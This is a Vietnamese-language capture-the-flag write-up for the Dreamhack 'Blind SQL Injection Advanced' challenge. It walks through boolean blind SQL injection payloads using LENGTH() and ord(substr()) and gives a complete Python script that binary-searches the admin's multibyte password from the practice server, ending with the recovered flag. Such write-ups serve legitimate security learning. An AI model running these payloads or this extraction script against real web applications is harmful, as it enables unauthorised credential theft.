

# WRITEUP `Blind SQL Injection Advanced`

>  ##  Exercise :
 Blind SQL Injection Advanced에서 실습하는 문제입니다.
관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.
---
> ## Soluiton
### 1.
Khi vào trang web challenge chúng ta thấy nơi để input dữ liệu vào.
Ta thử nhập 1 chuỗi bất kỳ và nó được ghép vào bên trong câu lệnh SQL mà trang web đã hiển thị công khai.



>-> Đây chính là một lỗ hổng SQL Injection (SQLi) cổ điển


### 2.

Từ file `init.sql` mà bạn đã tìm thấy, chúng ta biết được nơi dấu của flag của bài:

- Bảng: `users`

- Hàng: Nơi có uid là `admin`

- Cột: `upw`

- Flag: `DH{**FLAG**}`

### 3.

 Tiếp theo đó là sử dụng hàm `LENGTH()` của SQL.
```sql
admin' AND LENGTH(upw) = {SỐ KÝ TỰ ĐOÁN} --
```
Nếu khi web hiển thị `exists` thì đó là số ký tự đúng của FLAG.

### 4.
Tương tự như tìm kiếm sô ký tự của flag, chúng ta tiến hành tìm kiếm giá trị cuả từng ký tự.

Sử dụng `Binary Search` để tìm kiếm ký tự đó:
```sql
admin' AND ord(substr(upw, {VỊ TRÍ}, 1)) <= {GIÁ TRỊ ĐOÁN} --
```

Và đây là đoạn code:
```python
import requests
import sys

URL_CHALLENGE = "http://host8.dreamhack.games:22711/"

flag_tim_duoc = ""
for vi_tri_ky_tu in range(1, 51):
    
    trai = 0
    phai = 2**24 
    
    while trai < phai:
        
        giua = (trai + phai) // 2
        
        payload_sql = f"admin' and ord(substr(upw,{vi_tri_ky_tu},1)) <= {giua};"
        params_gui_di = {"uid": payload_sql}
        
        try:
            phan_hoi = requests.get(URL_CHALLENGE, params=params_gui_di, timeout=3)
            
            if 'exists' in phan_hoi.text:
                phai = giua
            else:
                trai = giua + 1

        except requests.exceptions.RequestException as e:
            print(f"[!] Lỗi kết nối: {e}")
            sys.exit(1) 

    gia_tri_unicode_ky_tu = trai 
    
    if gia_tri_unicode_ky_tu == 0:
        break
    try:
        ky_tu_tim_duoc = (gia_tri_unicode_ky_tu).to_bytes(3, 'big').decode('utf-8')
        ky_tu_tim_duoc = ky_tu_tim_duoc.strip('\x00')
        
    except Exception as e:
        ky_tu_tim_duoc = "?"
    flag_tim_duoc += ky_tu_tim_duoc
    print(f"Flag: {flag_tim_duoc}")

    

print(f"\nFlag: {flag_tim_duoc}")
```
> ### Ra được flag:
> `DH{이것이비밀번호!?}`